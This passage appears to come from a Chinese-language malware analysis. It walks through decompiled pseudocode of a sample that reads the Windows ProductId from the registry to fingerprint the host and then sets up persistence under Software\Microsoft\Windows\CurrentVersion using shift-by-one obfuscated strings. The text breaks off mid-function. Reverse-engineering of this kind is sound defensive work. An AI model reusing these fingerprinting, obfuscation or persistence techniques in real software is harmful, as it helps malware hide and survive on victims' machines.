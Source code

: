 ```c
char *sub_401570()
{
  unsigned int v0; // 用于存储字符串长度
  BYTE *v1; // 用于存储数据的指针
  HKEY phkResult; // 用于操作注册表键的句柄
  DWORD cbData; // 用于存储数据的字节数
  DWORD Type; // 用于存储数据的类型
  BYTE Data[1024]; // 用于存储注册表数据的缓冲区

  // 尝试打开注册表中的键
  if ( RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", 0, 0x101u, &phkResult) )
  {
    // 如果打开失败，则将 Buffer 和 "@!" 追加到 byte_4137C0 中
    strcat(byte_4137C0, Buffer);
    strcat(byte_4137C0, "@!");
    // 计算 byte_412F90 的长度并加 1
    v0 = strlen(byte_412F90) + 1;
    v1 = (BYTE *)byte_412F90; // 将 byte_412F90 的地址赋给 v1
  }
  else
  {
    // 如果成功打开注册表键，则查询 "ProductId" 的值并将其存储在 Data 中
    cbData = 1023;
    RegQueryValueExA(phkResult, "ProductId", 0, &Type, Data, &cbData);
    RegCloseKey(phkResult); // 关闭注册表键
    // 将 Buffer、"##"、byte_412F90 和 "@@" 追加到 byte_4137C0 中
    strcat(byte_4137C0, Buffer);
    strcat(byte_4137C0, "##");
    strcat(byte_4137C0, byte_412F90);
    strcat(byte_4137C0, "@@");
    v0 = strlen((const char *)Data) + 1; // 计算 Data 的长度并加 1
    v1 = Data; // 将 Data 的地址赋给 v1
  }
  // 将 v1 指向的 v0 字节的数据复制到 byte_4137C0 中
  qmemcpy(&byte_4137C0[strlen(byte_4137C0)], v1, v0);
  return byte_4137C0; // 返回 byte_4137C0 的指针
}

```

从注册表中获取 "ProductId" 值，然后将一些字符串连接起来，并返回结果。

> 再看看 sub_401360

#### sub_401360

**这个函数是为了保活**

```c
int sub_401360()
{
  const CHAR *v0; // 指向注册表键名的指针
  const CHAR *v1; // 指向注册表值名的指针
  char *v2; // 字符串缓冲区指针
  HKEY phkResult; // 存储打开的注册表键的句柄
  LPCSTR lpSubKey; // 存储注册表子键路径的指针
  const CHAR *v6; // 指向注册表值名的指针

  // 获取注册表子键路径并存储在lpSubKey中
  lpSubKey = sub_4026E0("Tpguxbsf]Njdsptpgu", 1);                                       //解密之后是Software\Microsoft
  strcat((char *)lpSubKey, sub_4026E0("]Xjoepxt]Dvssfouwfstjpo]", 1));                    //解密之后是\Windows\Currentversion
  *(_DWORD *)&lpSubKey[strlen(lpSubKey)] = 7238994;
```